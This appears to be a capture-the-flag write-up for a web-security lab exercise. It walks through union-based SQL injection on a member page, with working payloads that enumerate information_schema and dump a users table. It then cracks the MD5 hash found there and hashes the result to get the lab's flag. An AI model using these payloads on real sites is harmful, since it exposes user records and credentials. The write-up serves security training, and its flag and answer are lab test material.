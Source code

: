 # UNION BASED SQL INJECTION

## Flag
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Discovery
go to
```
 http://{IP_ADDRESS}/index.php?page=member
```
tryed a simple sql statement 
```
1 OR 1=1 
The SQL above is valid and will return ALL rows from the "users" table, since OR 1=1 is always TRUE.
```

Retrieve columns names with the table they belong to:
```
-1 UNION SELECT table_name,concat(column_name) FROM information_schema.COLUMNS 
```

Retrieve the id of the user (flag):
```
-1 UNION SELECT first_name, user_id FROM users
```

started investagting on that user (flag) by geting all its information each time changing col1, col2:
```
-1 UNION SELECT [col1_name], [col2_name] FROM db_default WHERE user_id=5
```

The table below show the result 

| user_id | first_name | last_name | town | country | planet | commentaire                                                                   | countersign 						|
| ------- | ---------- | --------- | ---- | ------- | ------ | ----------------------------------------------------------------------------- | ----------- 						|
|   5     | flag       | GetThe    |  42  |    42   |   42   | Decrypt this password -> then lower all the char. Sh256 on it and it's go    od ! | 5ff9d0165b4f92b14994e5c685cdce28 |

following the instruction :
* analyzing the password using [cipher identifier](https://www.dcode.fr/cipher-identifier)
* decrypt the password using [md5decrypt - md5](https://md5decrypt.net/en/)
* 5ff9d0165b4f92b14994e5c685cdce28 gives FortyTwo 
* lower all the char, encrypt it using Sh256
* flag is 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

## Helpers:
- [retrieve data from db](https://www.sqlinjection.net/table-names/)
- [dcode - cipher identifier](https://www.dcode.fr/cipher-identifier)
- [md5decrypt - md5](https://md5decrypt.net/en/)
